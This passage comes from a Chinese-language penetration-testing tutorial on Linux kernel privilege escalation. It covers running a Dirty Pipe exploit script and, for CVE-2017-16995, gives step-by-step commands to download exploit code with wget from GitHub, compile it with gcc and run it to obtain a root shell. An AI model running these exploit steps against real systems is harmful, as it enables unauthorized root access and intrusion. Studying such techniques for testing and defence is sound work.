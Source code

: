 #### 3.3.3.3 执行EXP

这里执行一下EXP，会自动跳转到root权限上，我这里未成功是由于kali的内核版本可能太高了，下面图片就是其它人执行成功的效果。

```
bash Dirty-Pipe.sh
```

![image-20230402100249337](assets/DkpRJArhT9tj8lz.png)

![image-20230402100405495](assets/OIhBQdSLEaRcXJT.png)

## 3.4 内核提权之ubuntu内核漏洞（CVE-2017-16995 ）

**1)影响版本**

```shell
Linux Kernel Version 4.14-4.4 （主要影响Debian和Ubuntu发行版，Redhat和CentOS不受影响）
```

2)利用步骤

```shell
Linux本地内核提权 CVE-2017-16995
从网上下载exp，或者kali导出exp上传到提权主机上。
wget https://github.com/brl/grlh/archive/master.zip
编译：
gcc get-rekt-linux-hardened.c -o exp
gcc 45010.c -o 45010   编译
chmod +x 45010         增加权限
./45010                         执行脚本返回root权限shell
id
```

## 3.5 Overlay 文件系统 copy-up 本地提权漏洞（CVE-2023-0386）

